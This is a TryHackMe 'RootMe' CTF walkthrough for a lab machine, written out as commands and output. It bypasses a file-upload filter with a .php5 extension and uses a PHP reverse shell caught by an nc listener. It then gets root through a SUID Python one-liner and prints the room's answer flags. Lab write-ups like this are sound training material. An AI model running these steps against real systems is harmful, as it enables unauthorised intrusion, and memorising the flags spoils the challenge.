 ## RootMe - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/rrootme)

**IP: 10.10.145.91**

**Replace [YOUR-THM-IP] with your own machine IP assigned by TryHackMe.**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation <br>

**Tools Used**: Nmap, Gobuster

[Tool Name](tool link)<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Reconnaissance

- Starting with Nmap and Gobuster.

  ```
  nmap -sC -sV -T5 -p- 10.10.145.91
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
  |   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
  |_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
  80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
  | http-cookie-flags: 
  |   /: 
  |     PHPSESSID: 
  |_      httponly flag not set
  |_http-title: HackIT - Home
  |_http-server-header: Apache/2.4.29 (Ubuntu)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```

  ```
  gobuster dir -u 10.10.145.91 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /uploads              (Status: 301) [Size: 314] [--> http://10.10.145.91/uploads/]
  /css                  (Status: 301) [Size: 310] [--> http://10.10.145.91/css/]
  /js                   (Status: 301) [Size: 309] [--> http://10.10.145.91/js/]
  /panel                (Status: 301) [Size: 312] [--> http://10.10.145.91/panel/]
  Progress: 87664 / 87665 (100.00%)
  ===============================================================
  Finished
  ===============================================================
  ```
  
- This will cover recon part, let's do reverse shell now.

---

## ⚙️ Shell Access

- When you visit `http://10.10.145.91/panel/` you will have an option to upload files, you already know what that means. First, I used PHP one liner but it didn't work because uploading a .php file is not allowed. But what about .php5?
  If you are using Kali, you already have a php reverse shell in your system, just copy it wherever you want it, change extension to `.php5` and change IP and Port in the code to match [YOUR-THM-IP] and listening port.
  Upload the shell, start a listener and visit the shell page and you are in! Shell can be found in `/upload` directory.

  ```
  cp /usr/share/webshells/php/php-reverse-shell.php ../../shell.php5

  nc -lvnp 4444                    
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.145.91] 34108
  Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
   14:20:24 up 13 min,  0 users,  load average: 0.00, 0.04, 0.06
  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  /bin/sh: 0: can't access tty; job control turned off
  $ whoami
  www-data
  $ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```
  
- Perfect, as always I have to change it to putty shell then look for flags.

  ```
  python -c 'import pty;pty.spawn("/bin/bash")'
  ^Z
  stty raw -echo; fg
  export TERM=xterm
  ```

---

## 🧍 User Privilege Escalation

- User flag is easy to find.

  ```
  bash-4.4$ find / -name user.txt 2>/dev/null
  /var/www/user.txt
  
  bash-4.4$ cat /var/www/user.txt 
  THM{y0u_g0t_a_sh3ll}
  ```

- Moving to escalation.

---

## 👑 Root Privilege Escalation

- Hint already told us to enumerate SUID and look for suspicious file, so let's do that first.

  ```
  find / -type f -perm -4000 2>/dev/null

  /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  /usr/lib/snapd/snap-confine
  /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
  /usr/lib/eject/dmcrypt-get-device
  /usr/lib/openssh/ssh-keysign
  /usr/lib/policykit-1/polkit-agent-helper-1
  /usr/bin/traceroute6.iputils
  /usr/bin/newuidmap
  /usr/bin/newgidmap
  /usr/bin/chsh
  /usr/bin/python
  /usr/bin/at
  /usr/bin/chfn
  /usr/bin/gpasswd
  /usr/bin/sudo
  /usr/bin/newgrp
  /usr/bin/passwd
  /usr/bin/pkexec
  /snap/core/8268/bin/mount
  /snap/core/8268/bin/ping
  /snap/core/8268/bin/ping6
  /snap/core/8268/bin/su
  /snap/core/8268/bin/umount
  /snap/core/8268/usr/bin/chfn
  /snap/core/8268/usr/bin/chsh
  /snap/core/8268/usr/bin/gpasswd
  /snap/core/8268/usr/bin/newgrp
  /snap/core/8268/usr/bin/passwd
  /snap/core/8268/usr/bin/sudo
  /snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
  /snap/core/8268/usr/lib/openssh/ssh-keysign
  /snap/core/8268/usr/lib/snapd/snap-confine
  /snap/core/8268/usr/sbin/pppd
  /snap/core/9665/bin/mount
  /snap/core/9665/bin/ping
  /snap/core/9665/bin/ping6
  /snap/core/9665/bin/su
  /snap/core/9665/bin/umount
  /snap/core/9665/usr/bin/chfn
  /snap/core/9665/usr/bin/chsh
  /snap/core/9665/usr/bin/gpasswd
  /snap/core/9665/usr/bin/newgrp
  /snap/core/9665/usr/bin/passwd
  /snap/core/9665/usr/bin/sudo
  /snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
  /snap/core/9665/usr/lib/openssh/ssh-keysign
  /snap/core/9665/usr/lib/snapd/snap-confine
  /snap/core/9665/usr/sbin/pppd
  /bin/mount
  /bin/su
  /bin/fusermount
  /bin/ping
  /bin/umount
  ```
  
- Suspicious file here is Python. You can find the SUID exploitation one liner on GTFOBins, look for Python then SUID. Just copy/paste the command, run it and you will escalate to root. After that just read the flag.

  ```
  $ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
  # whoami
  root
  
  # cat /root/root.txt
  THM{pr1v1l3g3_3sc4l4t10n}
  ```


---

## 🏁 Flags

- **User Flag**: `THM{y0u_g0t_a_sh3ll}`
- **Root Flag**: `THM{pr1v1l3g3_3sc4l4t10n}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Finally used Python for escalation.`

- What did I learn?
  `Just sharpening my skills.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
